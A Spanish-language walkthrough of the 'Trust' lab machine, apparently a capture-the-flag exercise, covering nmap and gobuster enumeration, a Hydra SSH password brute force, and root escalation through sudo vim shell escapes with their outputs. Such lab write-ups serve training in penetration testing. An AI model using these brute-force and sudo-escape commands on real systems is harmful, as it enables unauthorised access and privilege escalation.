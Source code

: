 
# 1. Máquina: Trust  

<a href="https://github.com/GutsNet"><img title="Author" src="https://img.shields.io/badge/Author-GutsNet-red.svg?style=for-the-badge&logo=github"></a>

**Dificultad:** 🔵 *Muy Fácil*

**Autor:** *[El Pingüino de Mario](https://www.youtube.com/channel/UCGLfzfKRUsV6BzkrF1kJGsg)*

**Fecha de creación:** *02/04/2024*

**Proceso:**
- [1. Despliegue](#desplegando-la-máquina-vulnerable)
- [2. Escaneo de puertos](#escaneo-de-puertos-con-nmap)
- [3. Enumeración de Directorios](#enumeración-de-directorios-con-gobuster)
- [4. Visualización de Contenido](#visualización-de-contenido-con-curl)
- [5. Ataque de fuerza bruta](#fuerza-bruta-ssh-con-hydra)
- [6. Acceso con SSH](#acceso-al-servidor-ssh)
- [7. Busqueda de privilegios](#enumeración-de-privilegios-sudo)
- [8. Escalada de privilegios](#escalada-de-privilegios-con-vim)

---

## Desplegando la Máquina Vulnerable

```python
~/Trust ᐅ sudo bash auto_deploy.sh trust.tar
```
Este comando ejecuta un script de bash (`auto_deploy.sh`) que despliega la máquina vulnerable a partir del archivo `trust.tar`.

**Salida:**

```python
Estamos desplegando la máquina vulnerable, espere un momento.

Máquina desplegada, su dirección IP es --> 172.18.0.2

Presiona Ctrl+C cuando termines con la máquina para eliminarla
```

#### Verificación de Conectividad

```python
~/Trust ᐅ ping -c 2 172.18.0.2
```
El comando `ping -c 2` envía 2 paquetes ICMP a la dirección IP `172.18.0.2` para verificar la conectividad y la respuesta del host.

**Salida:**

```python
PING 172.18.0.2 (172.18.0.2) 56(84) bytes of data.
64 bytes from 172.18.0.2: icmp_seq=1 ttl=64 time=0.441 ms
64 bytes from 172.18.0.2: icmp_seq=2 ttl=64 time=0.076 ms

--- 172.18.0.2 ping statistics ---
2 packets transmitted, 2 received, 0% packet loss, time 1022ms
rtt min/avg/max/mdev = 0.076/0.258/0.441/0.182 ms
```

---

## Escaneo de Puertos con Nmap

```python
~/Trust ᐅ nmap -p- -sCV 172.18.0.2
```
Este comando revela que los puertos `22` (SSH) y `80` (HTTP) están abiertos, con `OpenSSH` y `Apache` ejecutándose en ellos respectivamente.

**Salida:**

```python
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u2 (protocol 2.0)
80/tcp open  http    Apache httpd 2.4.57 ((Debian))
```

**Explicación de parámetros:**

- `-p-`: Escanea todos los puertos (del 1 al 65535).
- `-sCV`: Realiza un escaneo con detección de versión (`-sV`) y utiliza scripts básicos (`-sC`) para obtener más información del servicio.

---

## Enumeración de Directorios con Gobuster

```python
~/Trust ᐅ gobuster dir -w $seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -u http://172.18.0.2:80/ -t 200 -x php,html
```
Este comando encuentra dos archivos en el servidor web: `index.html` y `secret.php`.

**Salida:**

```python
/index.html           (Status: 200) [Size: 10701]
/secret.php           (Status: 200) [Size: 927]
```

**Explicación de parámetros:**

- `dir`: Modo de enumeración de directorios.
- `-w`: Especifica la wordlist a utilizar.
- `-u`: URL objetivo a escanear.
- `-t 200`: Define el número de hilos a usar (200 en este caso).
- `-x php,html`: Busca archivos con extensiones `.php` y `.html`.

---

## Visualización de Contenido con cURL

```python
~/Trust ᐅ curl http://172.18.0.2/secret.php
```

**Salida:**

```html
<!DOCTYPE html>
```         	                                                                                                                	              

El comando `curl` se utiliza para ver el contenido del archivo `secret.php`, el cual es HTML, o bien, la otra y la mejor opción, es abrir el archivo desde el navegador (http://172.18.0.2/secret.php). En este caso, lo hice a través de comandos por comodidad y para dar un vistazo.

---

## Fuerza Bruta SSH con Hydra

```python
~/Trust ᐅ hydra -l mario -P $seclists/Passwords/probable-v2-top12000.txt ssh://172.18.0.2 -I -t 32
```

**Salida:**

```python
[22][ssh] host: 172.18.0.2   login: mario   password: chocolate
1 of 1 target successfully completed, 1 valid password found
```

Hydra encuentra la contraseña `chocolate` para el usuario `mario`. Dicho usuario se encontro en la ruta http://172.18.0.2/secret.php.

**Explicación de parámetros:**
- `-l mario`: Define el usuario como `mario`.
 - `-P`: Especifica la wordlist de contraseñas.
 - `ssh://172.18.0.2`: Define el protocolo y la IP del objetivo.
- `-I`: Ejecuta el ataque inmediatamente sin demora.
- `-t 32`: Utiliza 32 tareas en paralelo.

---

## Acceso al Servidor SSH

```python
~/Trust ᐅ  mario@172.18.0.2
```

Este comando inicia una sesión SSH en la máquina como el usuario `mario`.

**Salida:**
 ```python
mario@172.18.0.2's password:
Linux 73cbcae3fd14 5.15.153.1-microsoft-standard-WSL2 #1 SMP Fri Mar 29 23:14:13 UTC 2024 x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Wed Mar 20 09:54:46 2024 from 192.168.0.21
mario@73cbcae3fd14:~$ 
```

**Comprobación:**
```
mario@73cbcae3fd14:~$ whoami
mario
```

---

## Enumeración de Privilegios Sudo

```python
mario@73cbcae3fd14:~$ sudo -l
 ```

Este comando muestra que el usuario `mario` tiene permisos para ejecutar `vim` con privilegios de superusuario.

**Salida:**

```python
Matching Defaults entries for mario on 73cbcae3fd14:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User mario may run the following commands on 73cbcae3fd14:
    (ALL) /usr/bin/vim
```

---

## Escalada de Privilegios con Vim

#### Búsqueda de técnicas de escalada de privilegios con <a href="https://github.com/r1vs3c/searchbins">Searchbins</a>

```python
~/Trust ᐅ searchbins -b vim -f sudo
```

Searchbins sugiere varias técnicas para escalar privilegios utilizando `vim`.

**Salida:**
```python
[+] Binary: vim

================================================================================
[*] Function: sudo -> [https://gtfobins.github.io/gtfobins/vim/#sudo]

        | sudo vim -c ':!/bin/sh'

This requires that `vim` is compiled with Python support. Prepend `:py3` for Python 3.

        | sudo vim -c ':py import os; os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'

This requires that `vim` is compiled with Lua support.

        | sudo vim -c ':lua os.execute("reset; exec sh")'
```

#### Ejecución de la Escalada de Privilegios

```python
mario@73cbcae3fd14:~$ sudo vim -c ':!/bin/sh'
```

Este comando utiliza `vim` con privilegios de superusuario para ejecutar un shell con permisos de root.

**Salida:**
```python
# 
```

**Comprobación:**
```python
# whoami
root
```

